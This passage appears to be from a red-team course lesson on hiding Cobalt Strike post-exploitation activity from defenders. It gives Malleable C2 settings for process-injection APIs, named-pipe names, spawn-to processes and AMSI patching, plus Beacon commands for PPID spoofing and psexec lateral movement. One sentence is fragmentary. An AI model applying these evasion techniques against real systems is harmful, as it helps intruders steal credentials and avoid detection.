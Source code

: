 
Getting a Beacon running, either from an artifact on disk or in-memory, is only the first step.  There are many post-exploitation commands that we need to run for enumeration, credential access, lateral movement, etc, and these commands do not benefit from the same evasion capabilities that Beacon has enabled by default.

This lesson will run through common ways in which a post-ex command can be detected by anti-virus and how to mitigate them.  Most of them relate to fork and run commands, because they are by far the most risky from an OPSEC perspective.

The workflow for fork and run looks something like this:

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/738fdd2c41760d3713ca51c388d28048.png)

When Beacon receives a fork & run task, it will either spawn a new process or open a handle to an existing process, depending on whether the spawn or explicit variant is being used.  Beacon will inject the post-ex reflective DLL into the target process in the form of shellcode, and then starts a new thread to run it.  This is achieved using the typical VirtualAllocEx/WriteProcessMemory/CreateRemoteThread style of injection.

The first thing the post-ex capability does is start a new SMB named pipe.  It will then do its work and continuously write any output to that pipe.  Meanwhile, Beacon will make a connection to the pipe, read the output from it, and send it back to the team server for the operators to see.

When the post-ex capability has finished its work, it tears down the named pipe and calls either ExitProcess (if the spawn variant was used) or ExitThread (if the explicit variant was used).  Beacon will detect that the named pipe has been closed, gracefully stops reading from it, and reports the task as complete.

### CreateRemoteThread

This API has traditionally been the most widely used to kick off execution in a remote process and its use can be detected by security drivers running in the Kernel via the [PsSetCreateThreadNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreatethreadnotifyroutine) function.  To push back on this, Beacon can be configured to use APIs other than CreateRemoteThread in the `process-inject.execute` block of Malleable C2.

appropriate one depending on the scenario.  The options are:

- CreateThread
    
- CreateRemoteThread
    
- SetThreadContext
    
- ObfSetThreadContext
    
- NtQueueApcThread
    
- NtQueueApcThread-s (this is the 'early bird' technique)
    
- RtlCreateUserThread

Some techniques are not appropriate for use when performing cross-architecture injection (i.e. 32-bit to 64-bit and vice versa), so ensure you have all your basis covered.  More information about each technique is provided in the [official documentation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_process-injection.htm).

```powershell
process-inject {
   execute {
      NtQueueApcThread-s;
      NtQueueApcThread;
      SetThreadContext;
      RtlCreateUserThread;
      CreateThread;
   }
}
```

### Named pipe names

The default named pipe name that Beacon uses with its post-ex DLLs is `postex_####` (where `#` is a random hex value). These pipe names are trivial to detect by drivers, such as Sysmon, and some 'known-bad' names are also included in SwiftOnSecurity's [sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config/blob/master/sysmonconfig-export.xml#L863) project.

The `post-ex.pipename` Malleable C2 option accepts a comma-separated list of alternate pipe names, where a random one is chosen each time.  For example:

```powershell
post-ex {
   set pipename "dotnet-diagnostic-#####, ########-####-####-####-############";
}
```

Because of the high volume of named pipes on Windows, it's likely an organisation will only log known-bad pipes from threat intel sources, etc, rather than every named pipe instance.  You're therefore probably safe picking anything that looks convincing enough to blend in with normal named pipe names.

### Parent-Child relationships

Relationships are hard.  In Windows, a process is typically spawned as a child of the process that started it.  In the case of our initial access, Beacon is running inside an MS Edge process.  It would look highly anomalous if it were then to spawn a process such as rundll32 (which is Beacon's default spawn-to).

![[Pasted image 20250728215512.png]]

Operators can change this spawn-to process at runtime, via the `spawnto` command.  This sets the spawn-to independently for that particular Beacon and should be used to contextualise its spawn-to prior to running any fork and run commands.  For example, MS Edge will spawn new Edge processes per open tab.  We can therefore set our spawn-to to MS Edge to blend in with that pattern.

```powershell
beacon> spawnto x64 "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
beacon> powerpick Start-Sleep -s 60
```

![[Pasted image 20250728215506.png]]

You can also change the default spawn-to process from rundll32 via the `post-ex.spawnto` option in Malleable C2.  For example:

```powershell
post-ex {
   set spawnto_x86 "%windir%\\syswow64\\svchost.exe"; 
   set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
}
```


### psexec spawnto

Beacon's `jump psexec[64]` command uses the service binary artifact to run a Beacon payload, which is the one that spawns a new process to inject into (all the others inject into themselves).  This behaviour allows the service and service binary to be cleaned up immediately after execution.  The service binary cannot use a spawn-to value that contains environment variables like `%windir%`, so the artifact kit adds a dedicated command, called `ak-settings`, which allows you to control its spawn-to separately.

```powershell
beacon> help ak-settings
Usage: ak-settings [setting] [value]

Set settings to be used for generating artifacts through the artifact kit

Supported settings:
   service - Set the name to return for the PSEXEC_SERVICE hook.
   spawnto_[x86|x64] - Set the migration process to use for the service executable artifacts.

Usage Examples:
   ak-settings service updater
   ak-settings spawnto_x64 [c:\path\to\whatever.exe]

No arguments will display the current settings.
```

For example, to set the spawnto host to svchost, we would do:

```powershell
beacon> ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe

beacon> ak-settings
[*] artifact kit settings:
[*]    service     = ''
[*]    spawnto_x86 = 'C:\Windows\SysWOW64\svchost.exe'
[*]    spawnto_x64 = 'C:\Windows\System32\svchost.exe'

beacon> jump psexec64 lon-ws-1 smb
```

![[Pasted image 20250728215806.png]]


### Image Load Events

A post-ex capability will typically have dependencies on other Windows modules (DLLs) for its functionality.  Many of these will be loaded into a process by default, such as kernel32.dll.  However, some will need to be loaded explicitly by the post-ex DLL's reflective loader.  Some notable examples include _System.Management.Automation.dll_, which is required by `powerpick` and `psinject`; and _cryptdll.dll_, _samlib.dll_, and _vaultcli.dll_ which are required by `mimikatz`.

Organisations can log instances of these DLLs being loaded by unexpected processes and flag them for further investigation.  When using fork and run commands, an operator should take care to inject these capabilities into a process that is known to load any modules that a post-ex DLL requires.  However, this can contradict with the parent-child strategy outlined above.  For example, there's probably no process that legitimately loads System.Management.Automation.dll that is also found as a legitimate child of MS Edge.  

For commands that have an explicit variant of fork and run, you're probably better off doing that to inject the post-ex capability into a target process that makes sense for the image loads.  However, some commands, like `execute-assembly`, don't have an explicit variant.

The parent process ID (PPID) spoofing technique is useful for these scenarios, as it allows Beacon to spawn processes under an arbitrary parent (as long as we have the privileges to obtain a handle to the desired parent process).  For example, we could use the `ps` command or process browser to find the PID of explorer.exe, set it as the `ppid`, set the `spawnto`, and then run the post-ex command.

```powershell
beacon> ppid 6648
beacon> spawnto x64 C:\Windows\System32\msiexec.exe
beacon> powerpick Start-Sleep -s 60
```

![[Pasted image 20250728220154.png]]

> To reset the PPID back to Beacon, run ppid without any arguments.

### AMSI

Both PowerShell and .NET are instrumented by AMSI which means any post-ex PowerShell script or .NET assembly may be detected by an anti-virus.  You'll likely see this with popular tools such as PowerView and Rubeus.

```powershell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powershell Get-Domain
This script contains malicious content and has been blocked by your antivirus software.

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
[-] Failed to load the assembly w/hr 0x8007000b
```

There's a simple option that we can add to Cobalt Strike's Malleable C2 profile, called `amsi_disable`.

```powershell
post-ex {
   set amsi_disable "true";
}
```

This instructs the post-ex reflective loader used with the `powerpick`, `psinject`, and `execute-assembly` commands to patch the AMSI DLL in-memory before executing the script or assembly.


> [!NOTE] **IMPORTANT**
> `amsi_disable` **DOES NOT** apply to the `powershell` command - use `powerpick` or `psinject` instead.

### Post-ex DLL obfuscation